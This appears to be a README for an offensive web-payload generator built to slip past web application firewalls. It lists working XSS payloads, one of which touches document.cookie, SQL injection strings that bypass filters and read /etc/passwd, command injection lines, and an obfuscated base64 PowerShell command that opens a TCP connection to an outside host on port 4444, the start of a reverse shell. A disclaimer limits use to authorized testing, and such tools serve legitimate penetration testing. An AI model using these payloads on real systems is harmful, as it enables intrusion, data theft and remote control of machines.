 # Web Exploitation Payload Generator 🛡️

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

**Advanced Modular Payload Generation Framework for Web Application Security Testing**

> "The ultimate toolkit for security professionals to generate, test, and analyze evasion-ready payloads for critical web vulnerabilities"

## Table of Contents
- <a href="#key-features" style="color: #1e90ff;">Key Features</a>
- <a href="#installation" style="color: #1e90ff;">Installation</a>
- <a href="#usage-examples" style="color: #1e90ff;">Usage Examples</a>
- <a href="#payload-modules" style="color: #1e90ff;">Payload Modules</a>
- <a href="#api-integration" style="color: #1e90ff;">API Integration</a>
- <a href="#sample-outputs" style="color: #1e90ff;">Sample Outputs</a>
- <a href="#contributing" style="color: #1e90ff;">Contributing</a>
- <a href="#license" style="color: #1e90ff;">License</a>
- <a href="#legal-disclaimer" style="color: #1e90ff;">Legal Disclaimer</a>

<a id="key-features"></a>
## Key Features ✨

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery to security tools |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

<a id="installation"></a>
## Installation 🚀

```bash
# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI OPTIONS]  # Command-line interface
python main.py                # Graphical interface
<a id="usage-examples"></a>

Usage Examples 🧪
CLI Interface (Penetration Testing)
bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
GUI Interface (Security Training)
https://via.placeholder.com/800x500.png?text=Payload+Generator+GUI+Interface
Interactive payload generation with real-time preview

<a id="payload-modules"></a>

Payload Modules 🔍
1. XSS Payload Generator
html
<!-- Sample DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
2. SQL Injection Engine
sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
3. Command Injection
bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami

# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
<a id="api-integration"></a>

API Integration ⚙️
python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
<a id="sample-outputs"></a>

Sample Outputs 📤
JSON Export:

json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
Command-Line Output:

text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
<a id="contributing"></a>

Contributing 🤝
We welcome security researchers and developers to contribute:

Report issues and suggest features

Submit pull requests with new payload modules

Improve evasion techniques

Add support for additional security tools

See our Contribution Guidelines for details.

<a id="license"></a>

License 📜
This project is licensed under the MIT License - see the LICENSE file for details.

<a id="legal-disclaimer"></a>

Legal Disclaimer ⚠️
Important: This tool is intended solely for:

Educational purposes

Security research

Authorized penetration testing

Improving defensive strategies

Never use this tool on systems without explicit written permission. The developers assume no liability and are not responsible for any misuse or damage caused by this software.


